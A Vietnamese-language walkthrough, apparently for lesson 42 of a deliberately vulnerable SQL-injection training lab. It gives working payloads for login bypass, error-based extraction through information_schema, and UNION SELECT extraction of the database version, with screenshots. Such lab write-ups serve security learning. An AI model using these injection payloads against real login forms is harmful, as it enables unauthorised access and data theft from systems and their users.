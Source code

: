 # Những việc làm được với lesson-42
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-42

![](../images/lesson42/screen_1.png)

Bài này khi ta thấy màn hình đăng nhập này ta hãy thử bấm vào forgot và new user trước. Kết quả là không thể làm gì 

![](../images/lesson42/screen.png)

![](../images/lesson42/screen_2.png)

Có nghĩa là ta muốn injection thì phải injection tại đây. Có một số cách pass qua login mà ta đã làm lúc trước là cho nó giá trị luôn đúng. bằng `or` trong câu truy vấn. Ta cho giá trị user 

1. ERROR-BASE

Trong quá trình tìm cấu trúc của login luôn đúng thì tôi thấy rằng nó có báo lỗi chứng tỏ rằng ta có thể sử dụng được error base 

```
user : 1' OR 1 = 1
pass : 1' OR 1 = 1 
```

![](../images/lesson42/screen_5.png)

Cấu trúc của error base là 
```
user : 1' OR 1 = 1
pass : 1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- +
```

![](../images/lesson42/screen_6.png)

2. Cấu trúc để pass qua login là 

```
user: 1' OR '1' = '1
pass: 1' OR '1' = '1
```

![](../images/lesson42/screen_3.png)

Sau khi login thành công. Ta thấy tên của user được in ra màn hình chứng tỏ rằng ta có thể sử dụng được union và select để kết hợp trích xuất dữ liệu mà khong cần sử dụng error-base 

![](../images/lesson42/screen_4.png)

3. Cấu trúc của union và select

```
user: 1' OR '1' = '1
pass: 1' union select 1,2,3 OR '1' = '1 
```

![](../images/lesson42/screen_7.png)

Tương tự ta sẽ lấy ra được version hay DB và các dữ liệu khác bằng group và nó sẽ nhanh hơn là error-base 


```
user: 1' OR '1' = '1
pass: 1' union select 1,@@version,3 OR '1' = '1 
```

![](../images/lesson42/screen_8.png)

Tương tự như thế ta có thể hiển thị và biết được nhiều dữ liệu cùng một lúc nhanh hơn error-base 